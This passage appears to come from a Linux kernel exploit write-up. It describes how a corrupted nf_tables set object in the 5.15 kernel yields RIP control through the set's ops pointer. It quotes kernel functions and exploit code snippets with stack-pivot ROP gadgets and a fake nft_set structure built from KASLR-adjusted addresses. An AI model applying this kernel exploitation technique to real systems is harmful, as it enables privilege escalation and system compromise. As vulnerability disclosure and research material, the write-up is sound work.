 - [net/netfilter/nf_tables_api.c:nft_set_destroy()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n4671)
```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
	int i;

	if (WARN_ON(set->use > 0))
		return;

	for (i = 0; i < set->num_exprs; i++)
		nft_expr_destroy(ctx, set->exprs[i]);

	set->ops->destroy(set);
	nft_set_catchall_destroy(ctx, set);
	kfree(set->name);
	kvfree(set);
}
```
Finally, the exploit deletes the overwritten `struct nft_set` object to trigger RIP control through `set->ops->release` function pointer and initiates the ROP.

![cos_2](./img/cos_2.png)

- [exploit/extra-refined/exploit.c#L101](../exploit/extra-refined/exploit.c#L101)
```c
// push rdi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_nocg_1_offset;
// pop rsp ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff81004130 (nop ; ret)
uintptr_t pivot_gadget_nocg_2_offset;
// add rsp, 0xc8 ; jmp 0xffffffff82204200 (ret)
uintptr_t pivot_gadget_nocg_3_offset;
```
Since the current chunk address is stored in `rdi` and `rsi` registers, the exploit can pivot the kernel stack to the current chunk by using the above pivot gadgets.

- [net/netfilter/nf_tables_api.c:nft_set_lookup](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n3798)
```c
static struct nft_set *nft_set_lookup(const struct nft_table *table,
				      const struct nlattr *nla, u8 genmask)
{
	struct nft_set *set;

	if (nla == NULL)
		return ERR_PTR(-EINVAL);

	list_for_each_entry_rcu(set, &table->sets, list) {
		if (!nla_strcmp(nla, set->name) &&
		    nft_active_genmask(set, genmask))
			return set;
	}
	return ERR_PTR(-ENOENT);
}
```
- [exploit/extra-refined/exploit.c#L1123](../exploit/extra-refined/exploit.c#L1123)
```c
 // fake nft_set with ROP primer
*(uintptr_t *)(buf_ptr + 0x18) = curr_gadget->pivot_gadget_nocg_3_offset + kaslr_slide; // [3]
*(uintptr_t *)(buf_ptr + 0x30) = nft_set_addr + 0xd8;                                   // name
*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_nocg_2_offset + kaslr_slide; // [2]
*(uintptr_t *)(buf_ptr + 0x60) = 0;                                                     // field_count, use
```